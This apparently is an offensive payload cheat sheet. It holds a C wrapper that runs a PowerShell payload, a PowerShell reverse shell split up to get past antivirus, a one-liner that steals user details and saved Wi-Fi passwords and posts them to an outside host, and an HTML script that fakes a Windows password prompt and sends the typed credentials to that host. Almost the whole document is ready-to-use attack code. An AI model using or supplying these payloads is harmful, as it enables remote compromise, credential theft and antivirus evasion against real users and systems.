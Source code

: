 ## C

- Base powershell execute template

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

#define MAX_LENGTH 10000

int main()
{
    char cmd[MAX_LENGTH];
    strcpy(cmd, "powershell.exe");
    strcat(cmd, " -Command \"<payload>\"");
    system(cmd);
    return 0;
}
```

- To compile in linux

```bash
i686-w64-mingw32-gcc -o evil.exe evil.c
```
## Powershell

- Reverse TCP
```powershell
# this is split in parts because the AV keeps flaging this file as malicious. Combine all parts into one string.

# part 1
$client = New-Object
# part 2
System.Net.Sockets.TCPClient("<attacker-ip>",<port>);
# part 3 follows bellow...
```

```powershell
$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

- HTTP POST Request

```powershell
# this will get `whoami` and wifi keys
$w=[System.Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes((whoami /all)));$arr=@(); foreach ($n in (netsh wlan show profile | Select-String "Profile\s*:\s*(\S+)" -AllMatches | % { $_.Matches } | % { $_.Groups[1].Value })) { $arr+=[System.Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes((netsh wlan show profile name=$n key=clear | Select-String "(SSID name)|(Key Content)"))); $arr+="&"};$wifi=[System.Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes(($arr)));$b=@{whoami=$w,wifi=$wifi};$a=Invoke-WebRequest -Method POST -Uri "https://ce71n3c2vtc0000afs80g8do4tayyyyyb.oast.fun" -Body $b
```

## HTML

* Tip: use [GoClone](https://github.com/imthaghost/goclone) to clone websites.

- Custom script that requests for user creds and upload them to an attacker-controlled website

```html
<script>
    function showPrompt(){
        for (var i=0; i < 2; i++){
        var creds = prompt("Windows Security\n\nType your Windows password to view file contents", "", "Windows Security")
        if (i == 0){
            alert("Incorrect password, please try again")
        }
        var xhr = new XMLHttpRequest();
        xhr.open("POST", "http://ce71n3c2vtc0000afs80g8do4tayyyyyb.oast.fun/confidential", true);
        xhr.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
        xhr.send("creds=" + creds);
        }
    }
    showPrompt()
</script>
```